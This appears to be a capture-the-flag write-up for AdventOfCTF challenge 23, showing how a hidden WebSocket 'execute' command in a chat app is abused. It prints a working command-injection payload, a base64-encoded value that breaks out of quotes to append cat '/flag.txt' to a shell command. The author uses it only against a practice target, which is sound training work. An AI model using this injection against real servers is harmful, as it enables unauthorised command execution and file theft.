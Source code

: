 +++
author = "Maik de Kruif"
title = "Challenge 23 - AdventOfCTF"
date = 2021-03-16T20:52:38+01:00
description = "A writeup for challenge 23 of AdventOfCTF."
cover = "img/adventofctf/497784f7a3314f8aa5b8464432e30bbe.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "websockets",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2300

## Description

If all you do is talk, there are bound to be secret features. The flag is stored in /flag.txt.

Visit <https://23.adventofctf.com> to start the challenge.

## Recon

When opening the page, we're greeted with, what looks like, a chat screen. If we type a message in the message box and send it, it appears on the screen.

If we take a look at the source, we also find a bit of javascript:

```js
$(function () {
  var socket = io();
  $("form").submit(function () {
    socket.emit("chat message", { message: $("#m").val() });
    $("#m").val("");
    return false;
  });
  socket.on("chat message", function (msg) {
    console.log(msg.command);
    if (msg.command === "code") {
      $("#messages").append($("<li>").html("<pre>" + msg.message + "</pre>"));
    } else {
      $("#messages").append($("<li>").text(msg.message));
    }
    window.scrollTo(0, document.body.scrollHeight);
  });
});
```

## Finding the vulnerability

From the JavaScript code we can see that the chat uses WebSockets. To take a deeper look at it, let's switch over to the network tab in Chrome and click on the request with the type "websocket".

{{< figure src="/img/adventofctf/23/websocket.png" title="Websocket in Chrome DevTools" >}}

If we click on it, a tab with the messages sent on the websocket will open. We can see some numbers here, these are just heartbeat packets to keep the connection alive. Now, let's send a new message and have a look at what it actually sends/receives.

After sending the message, the following entries are added to the websocket message list.

```js
⬆42["chat message", {message: "Hi"}]
⬇42["chat message", {message: "Hi"}]
```

We can see the message contains two parts; the event name and the message itself. We also only see a message variable, while in the javascript code we also saw it looked for a `"command"`. Let's try to manually add it to the message.

### Manually sending a message

In Chrome (to my knowledge) we can't easily send a message on a websocket. We could use Burp Suit to do it but for this writeup I'll stick with Chrome. To send a message on the websocket, we need the `socket` variable from the javascript code. To get it, go to the `Sources` tab and click on `(index)`. Now click on line number 28 to add a breakpoint there. We choose this place as it will trigger a breakpoint just before a message gets sent and we thus have access to the socket variable.

{{< figure src="/img/adventofctf/23/breakpoint.png" title="Javascipt breakpoint in Chrome" >}}

Now if we try to send a message, chrome will pause the page. The console will now also have the scope of the piece of code at the breakpoint. This means that if we enter `socket` in the console, will get the socket object back:

```js
> socket
< Socket {receiveBuffer: Array(0), sendBuffer: Array(0), ids: 0, acks: {…}, flags: {…}, …}
```

Let's save this object to the global scope so we can always access it. To do this, let's enter the following code in the console:

```js
window.socket = socket;
```

We can then click the continue button or press `F8` to continue the script. To verify we still have access to the socket, we can try to send a message using the console. I used the following code for this:

```js
socket.emit("chat message", { message: "Hello" });
```

After running this, we also see the message pop up in the chat window.

### Sending a command

Because the code tries to read `msg.command`, let's try adding a command to the message. We can do that using the following code:

```js
socket.emit("chat message", {
  message: "Hello",
  command: "ls",
});
```

As we expect from the code, `"ls"` is printed to the console but nothing else seems to happen. Maybe the command does not exist, let's try the common `help` command.

```js
socket.emit("chat message", { message: "Hello", command: "help" });
```

This time it returns a different message: "Allowed message types are: help, execute and empty".

## Exploit

The `execute` command looks interesting, so let's take a further look at it.

```js
socket.emit("chat message", { message: "Hello", command: "execute" });
```

Upon sending it, the server returns "Invalid BASE64". This probably means it is trying to read base64 encoded data. But from where? Let's try replacing the message with a base64 encoded command.

```bash
> echo -n "ls" | base64 -w 0
bHM=⏎
```

```js
socket.emit("chat message", { message: "bHM=", command: "execute" });
```

This time we got a different result:

```text
ERR: Error: Command failed: /bin/ls 'ls'
ls: ls: No such file or directory
```

This means the backend is trying to list the contents of "ls", let's try again with a `/` as the message:

```bash
> echo -n "/" | base64 -w 0
Lw==⏎
```

```js
socket.emit("chat message", { message: "Lw==", command: "execute" });
```

This returns the following:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

The only thing left is reading the `flag.txt` file. From the ls error we know the backend executes the following: `/bin/ls '[MESSAGE]'`. This means we have to construct a command that works around the quotes around our input. An example for the input would be `/'; cat '/flag.txt` as this makes the command become the following:

```bash
/bin/ls '/'; cat '/flag.txt'
```

Let's try that.

```bash
> echo -n "/'; cat '/flag.txt" | base64 -w 0
Lyc7IGNhdCAnL2ZsYWcudHh0⏎
```

```js
socket.emit("chat message", {
  message: "Lyc7IGNhdCAnL2ZsYWcudHh0",
  command: "execute",
});
```

This will give us the following output:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
NOVI{i_hacked_websockets_and_1_am_still_s@ne}
```

## Solution

We got the flag! It is `NOVI{i_hacked_websockets_and_1_am_still_s@ne}`.

